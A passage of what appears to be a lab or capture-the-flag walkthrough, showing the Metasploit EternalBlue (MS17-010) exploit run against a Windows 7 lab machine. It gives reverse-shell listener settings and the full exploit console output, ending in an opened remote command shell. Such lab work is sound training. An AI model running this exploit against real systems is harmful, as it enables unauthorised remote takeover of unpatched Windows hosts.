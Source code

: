```
   LHOST     10.18.72.222     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

With that done, run the exploit!


Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.18.72.222:4444 
[*] 10.10.131.30:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.131.30:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.131.30:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.131.30:445 - The target is vulnerable.
[*] 10.10.131.30:445 - Connecting to target for exploitation.
[+] 10.10.131.30:445 - Connection established for exploitation.
[+] 10.10.131.30:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.131.30:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.131.30:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.131.30:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.131.30:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.131.30:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.131.30:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.131.30:445 - Sending all but last fragment of exploit packet
[*] 10.10.131.30:445 - Starting non-paged pool grooming
[+] 10.10.131.30:445 - Sending SMBv2 buffers
[+] 10.10.131.30:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.131.30:445 - Sending final SMBv2 buffers.
[*] 10.10.131.30:445 - Sending last fragment of exploit packet!
[*] 10.10.131.30:445 - Receiving response from exploit packet
[+] 10.10.131.30:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.131.30:445 - Sending egg to corrupted connection.
[*] 10.10.131.30:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.131.30
[*] Command shell session 1 opened (10.18.72.222:4444 -> 10.10.131.30:49170) at 2023-07-27 11:32:59 -0400
[+] 10.10.131.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.131.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.131.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          
```